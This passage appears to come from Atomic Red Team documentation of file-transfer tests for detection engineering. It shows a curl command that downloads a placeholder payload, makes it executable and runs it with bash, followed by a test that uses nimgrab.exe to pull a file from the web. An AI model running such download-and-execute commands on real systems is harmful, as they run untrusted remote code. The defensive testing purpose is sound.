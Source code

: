 ```sh
curl -sO #{remote_url}; chmod +x #{payload_name} | bash #{payload_name}
```

#### Cleanup Commands:

```sh
rm #{payload_name}
```

<br/>
<br/>

## Atomic Test #28 - Nimgrab - Transfer Files

Use nimgrab.exe to download a file from the web.

**Supported Platforms:** Windows

**auto_generated_guid:** b1729c57-9384-4d1c-9b99-9b220afb384e

#### Inputs:

| Name             | Description              | Type | Default Value                                                                    |
| ---------------- | ------------------------ | ---- | -------------------------------------------------------------------------------- |
| remote_file      | URL of file to copy      | url  | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt |
| destination_path | Destination path to file | path | $env:TEMP&#92;Atomic-license.txt                                                 |

#### Attack Commands: Run with `command_prompt`!

```cmd
cmd /c "PathToAtomicsFolder\..\ExternalPayloads\nimgrab.exe" #{remote_file} #{destination_path}
```

#### Cleanup Commands:

```cmd
del #{destination_path} >nul 2>&1
```

#### Dependencies: Run with `powershell`!

##### Description: NimGrab must be installed on system.

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\nimgrab.exe") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://nim-lang.org/download/nim-1.6.6_x64.zip" -Outfile "PathToAtomicsFolder\..\ExternalPayloads\nim.zip"
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\nim.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\nim" -Force
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\nim\nim-1.6.6\bin\nimgrab.exe" "PathToAtomicsFolder\..\ExternalPayloads\nimgrab.exe"
```
